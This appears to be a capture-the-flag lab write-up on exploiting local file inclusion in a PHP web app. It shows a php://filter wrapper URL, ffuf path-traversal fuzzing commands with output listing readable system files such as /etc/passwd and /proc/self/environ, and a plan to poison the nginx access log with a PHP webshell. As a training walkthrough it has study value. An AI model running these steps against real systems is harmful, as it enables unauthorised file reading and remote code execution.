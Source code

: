 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption><p>page parameter</p></figcaption></figure>

* Can't include /etc/passwd
* Can't ffuf for valid files
* had to use PHP wrapper to view source code

```
view-source:http://46.101.95.166:30586/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption><p>ilf_admin/index.php</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption><p>log parameter seems to be including files</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption><p>included file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption><p>No session values found so is not php session poisoning</p></figcaption></figure>

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://46.101.95.166:30586/ilf_admin/index.php?log=FUZZ' -c 
```

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:FUZZ -u 'http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ' -c -fs 2046

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2046
________________________________________________

    * FUZZ: /etc/passwd
    * FUZZ: /etc/inittab
    * FUZZ: /etc/hosts
    * FUZZ: /etc/fstab
    * FUZZ: /etc/issue
    * FUZZ: /etc/mtab]
    * FUZZ: /etc/motd
    * FUZZ: /etc/resolv.conf
    * FUZZ: /etc/profile
    * FUZZ: /proc/cpuinfo
    * FUZZ: /proc/ioports
    * FUZZ: /proc/filesystems
    * FUZZ: /proc/interrupts
    * FUZZ: /proc/meminfo
    * FUZZ: /proc/stat
    * FUZZ: /proc/mounts
    * FUZZ: /proc/swaps
    * FUZZ: /proc/self/net/arp
    * FUZZ: /proc/version
    * FUZZ: /proc/modules
    * FUZZ: /etc/ca-certificates.conf
    * FUZZ: /etc/group-
    * FUZZ: /etc/group
    * FUZZ: /etc/hostname
    * FUZZ: /etc/modules
    * FUZZ: /etc/passwd-
    * FUZZ: /etc/nginx/nginx.conf
    * FUZZ: /etc/os-release
    * FUZZ: /etc/sysctl.conf
    * FUZZ: /proc/devices
    * FUZZ: /proc/net/udp
    * FUZZ: /proc/self/cmdline
    * FUZZ: /proc/self/environ
    * FUZZ: /proc/self/mounts
    * FUZZ: /proc/self/stat
    * FUZZ: /proc/self/status
    * FUZZ: /proc/net/tcp
    * FUZZ: /var/log/nginx/access.log
    * FUZZ: /var/log/nginx/error.log
```

Above are list of files that were accessible

to perform server log poisoning we need access to access.log file&#x20;

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption><p>../../../../../var/log/nginx/access.log</p></figcaption></figure>

now we can try to edit the header to php webshell.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

